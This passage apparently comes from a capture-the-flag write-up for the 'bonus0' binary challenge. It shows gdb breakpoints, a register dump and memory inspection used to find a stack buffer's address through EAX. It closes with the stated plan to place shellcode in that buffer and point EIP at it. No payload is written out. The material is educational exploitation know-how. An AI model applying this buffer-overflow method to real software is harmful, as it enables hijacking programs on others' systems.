 We can see that the buffer is filled with `0x61` (ASCII for `a`), and the last byte is `0x0a` (ASCII for `\n`), and it starts at the address `0xbfffe680`.

#### With EAX

We can find the address of the buffer with `eax` too, because `eax` is used to store temporary values, and it is used to store the address of the buffer in our case.
```bash
0x080484ee <+58>:	lea    -0x1008(%ebp),%eax
0x080484f4 <+64>:	mov    %eax,(%esp)
```
We can set a breakpoint just after the `lea` instruction, run the program, and examine the stack to find the address of the buffer.
```bash
(gdb) break *0x080484f4
Breakpoint 1 at 0x80484f4
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Breakpoint 1, 0x080484f4 in p ()
(gdb) info registers
eax            0xbfffe680	-1073748352
ecx            0xbfffe680	-1073748352
edx            0x1000	4096
ebx            0xb7fd0ff4	-1208152076
esp            0xbfffe670	0xbfffe670
ebp            0xbffff688	0xbffff688
esi            0x0	0
edi            0x0	0
eip            0x80484f4	0x80484f4 <p+64>
eflags         0x200207	[ CF PF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) x/20x $eax
0xbfffe680:	0x61616161	0x61616161	0x61616161	0x61616161
0xbfffe690:	0x61616161	0x61616161	0x61616161	0x61616161
0xbfffe6a0:	0x61616161	0x0000000a	0x00000000	0x00000000
0xbfffe6b0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe6c0:	0x00000000	0x00000000	0x00000000	0x00000000
```
We can see that the buffer is filled with `0x61` (ASCII for `a`), and the last byte is `0x0a` (ASCII for `\n`), and it starts at the address `0xbfffe680`.


So our buffer address is `0xbfffe680`.
Now, we can write the shellcode in the buffer, and copy this address in the EIP to execute the shellcode.
